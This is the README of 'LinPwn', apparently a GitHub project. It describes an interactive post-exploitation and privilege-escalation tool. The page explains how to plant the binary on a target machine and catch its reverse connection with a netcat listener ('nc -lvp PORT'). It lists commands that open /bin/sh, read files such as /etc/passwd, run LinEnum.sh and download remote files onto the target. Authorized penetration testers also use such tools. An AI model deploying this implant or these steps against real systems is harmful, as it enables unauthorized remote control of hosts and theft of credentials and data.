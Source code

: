 # LinPwn

![LinPwn](https://github.com/3XPL017/LinEnum/blob/master/images/LinPwn.png)
<br>
## About
LinPwn is a interactive tool created to assist you in post exploitation enumeration and privilege escalation.<br>
## Connection
Set your IP and port you want it to connect to in the Connection class.<br>
Place the LinPwn binary on the target machine.<br>
Run `nc -lvp PORT` on your machine and then run LinPwn on the target machine to get a connection.
## Usage
1. shell - This command Executes /bin/sh<br>
Example usage: `(LinPwn: Shell) > id`<br> 
Type exit to return to LinPwn.<br>
2. readfile - This command will print the contents of a file.<br>
Example usage: `(LinPwn: ReadFile)> /etc/passwd`<br>
Type exit to return to LinPwn.<br>
3. enumerate - this command runs LinEnum.sh<br>
Example usage:  `(LinPwn) > enumerate` 
4. download - This command downloads a file on the target machine
Example usage: `(LinPwn: Download) > https://exampleurl.com/file_to_download`
## Compiling
I included a file called build.sh this is optional run `bash build.sh` to view the build options if you wish to use them. 
 

